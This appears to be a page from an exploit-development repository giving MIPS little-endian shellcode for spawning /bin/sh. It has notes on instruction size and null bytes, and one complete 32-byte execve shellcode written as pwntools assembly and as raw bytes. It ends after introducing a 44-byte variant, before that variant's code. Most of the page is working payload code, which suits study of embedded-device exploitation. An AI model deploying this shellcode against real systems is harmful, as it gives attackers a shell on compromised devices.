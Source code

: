 Several variations of relevant shellcode are found below, along with a list of limitations, allowing you to choose whichever best suits your situation. Ensure you have the `binutils-mips-linux-gnu` apt dependency before trying to compile the code through pwntools.

### General Shellcode Notes
* Unlike in x86, each assembly instruction uses exactly 4 bytes. This means we only need to worry about the number of instructions and not the length of each instruction when golfing our shellcode, but that also means our shellcode is likely to take up more space.
* Since each instruction uses 4 bytes, it's impossible for a single instruction to move 4 bytes into a register (since some bits need to specify the operation, destination register, etc.). This means you can move a **maximum of 2 bytes into a register per instruction**, which is why it takes 4 instructions (16 bytes) to move "//bin/sh" into the `$t6` and `$t7` registers in the second example below.

### `/bin/sh` - 32 bytes
* Command - `execve("/bin/sh", NULL, NULL)`
* Length - 32
* Notes
    * **DOES** contain null bytes
    * No whitespace
    * Suitable for stack shellcode
* **Note - NOT SUITABLE FOR VILO USAGE** as the second argument is set to NULL, simply an educational addition

```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
shellcode = asm('''
    bgezal $zero, getpc     # \x00\x00\x11\x04
getpc:
    addiu $a0, $ra, 0x10    # \x10\x00\xe4\x27
    slti $a1, $zero, -1     # \xff\xff\x05\x28
    slti $a2, $zero, -1     # \xff\xff\x06\x28
    li $v0, 4011            # \xab\x0f\x02\x24
    syscall 0xd1337         # \xcc\xcd\x44\x03
.asciiz "/bin/sh"           # \x2f\x62\x69\x6e\x2f\x73\x68\x00
''')

# Shellcode = b"\x00\x00\x11\x04\x10\x00\xe4'\xff\xff\x05(\xff\xff\x06(\xab\x0f\x02$\xcc\xcd\x44\x03/bin/sh\x00"
```

### `/bin/sh` - 44 bytes
* Command - `execve("/bin/sh", NULL, NULL)`
* Length - 44
* Notes
    * No null bytes
    * No whitespace
    * Suitable for stack shellcode
* **Note - NOT SUITABLE FOR VILO USAGE** as the second argument is set to NULL, simply an educational addition 
